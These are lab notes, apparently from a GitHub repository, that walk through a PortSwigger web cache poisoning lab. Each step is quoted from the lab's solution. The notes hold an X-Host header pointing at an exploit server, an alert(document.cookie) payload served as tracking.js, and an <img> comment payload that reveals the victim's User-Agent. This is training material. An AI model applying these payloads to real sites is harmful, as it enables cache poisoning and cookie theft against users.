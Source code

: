 ![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fa1b4baa-2bca-444f-adbd-5c850f37237a)




• Add the X-Host header with an arbitrary hostname, such as example.com. Notice that the value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at /resources/js/tracking.js. 

From <https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/52667a02-04d5-47e8-97bf-a4001d8dabec)




• Go to the exploit server and change the file name to match the path used by the vulnerable response: 
/resources/js/tracking.js 
• In the body, enter the payload alert(document.cookie) and store the exploit. 

From <https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header> 


• Go back to the request in Burp Repeater and set the X-Host header as follows, remembering to add your own exploit server ID: 
```
X-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
``` 

From <https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header> 

• Go back to the request in Burp Repeater and set the X-Host header as follows, remembering to add your own exploit server ID: 
```
X-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
``` 
• Send the request until you see your exploit server URL reflected in the response and X-Cache: hit in the headers. 
• To simulate the victim, load the URL in the browser and make sure that the alert() fires. 

From <https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/59a6313c-e56b-4e03-a6ac-e5e65e32c2b4)



• Notice that the Vary header is used to specify that the User-Agent is part of the cache key. To target the victim, you need to find out their User-Agent. 

From <https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/77f6bdba-fb82-4e75-9c3d-127305f8c182)



• On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example: 
```
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
``` 
